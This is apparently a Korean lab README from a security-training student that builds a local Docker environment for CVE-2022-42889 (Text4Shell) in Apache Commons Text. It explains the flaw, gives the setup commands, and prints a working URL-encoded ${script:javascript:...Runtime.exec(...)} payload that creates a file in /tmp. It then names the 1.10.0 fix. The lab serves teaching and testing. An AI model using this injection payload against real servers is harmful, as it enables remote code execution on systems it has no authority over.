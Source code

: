 # CVE-2022-42889
> 화이트햇 스쿨 3기 - 김동환

**vulhub.org에 없는 CVE환경을 구성하였습니다.**

<br/>

### 요약

- CVE-2022-42889는 Apache Commons Text 라이브러리(1.5 ~ 1.9 버전)에서 발견된 원격 코드 실행(RCE) 취약점입니다.

- 특정 버전의 Commons Text는 문자열 변수 치환(StringSubstitutor) 시 기본값으로 포함된 특정 조회(lookup) 기능(예: script, dns, url)을 통해 외부 입력값을 처리합니다.
- 이 중 script 조회 기능 등은 외부에서 제공된, 신뢰할 수 없는 스크립트나 데이터를 처리하여 실행할 수 있으므로, 공격자는 조작된 문자열(예: ${script:javascript:...})을 입력값으로 전달하여 서버에서 임의의 코드를 실행시킬 수 있습니다.
- 따라서 악의적인 공격자는 취약한 라이브러리를 사용하는 애플리케이션에 특수하게 조작된 입력값을 전송함으로써, 해당 서버의 제어권을 획득하거나 추가 공격을 수행할 수 있습니다.

<br>

---

<br>

### 환경 구성 및 실행 (MAC OS)
<br>

1. 명령어 실행


```
$ brew install maven
$ git clone https://github.com/alxqkekrroqkfwk/kr-vulhub
$ cd /Apache-Commons-Text/CVE-2022-42889
$ mvn clean install
$ docker build --tag=text4shell .
$ docker run -p 8080:8080 text4shell
```

<br>

2. 취약 서버 구동

![alt text](image.png)

<br>

3. 서버 구동 후 정상 접근 확인

![alt text](image2.png)

<br>

4. 피해 시스템 / tmp 파일 내용 확인
```
docker ps -a
sudo docker exec -it {NAME} ls /tmp/
```
![alt text](image3.png)

<br>

5. 파라미터 값 조작 후 Exploit 진행
```
http://localhost:8080/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec(%27touch%20%2Ftmp%2Fexploit%27)%7D
```

![alt text](image4.png)

> search 파라미터에 **${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}** 을 URL로 한번 인코딩 후 Exploit 진행




<br/>



### 결과


```
docker ps -a
sudo docker exec -it {NAME} ls /tmp/
```
![alt text](image6.png)
> exploit 파일 생성 확인

<br/>

### 정리

CVE-2022-42889는 Apache Commons Text 1.5~1.9 버전의 문자열 보간 기능에서 ${script:javascript:...} 형태의 입력을 통해 서버에서 임의 명령어가 실행되는 원격 코드 실행 취약점으로, 1.10.0 버전에서 해당 기능이 비활성화되며 해결되었고, 입력값 검증 부재로 인한 치명적 보안 리스크를 보여줍니다.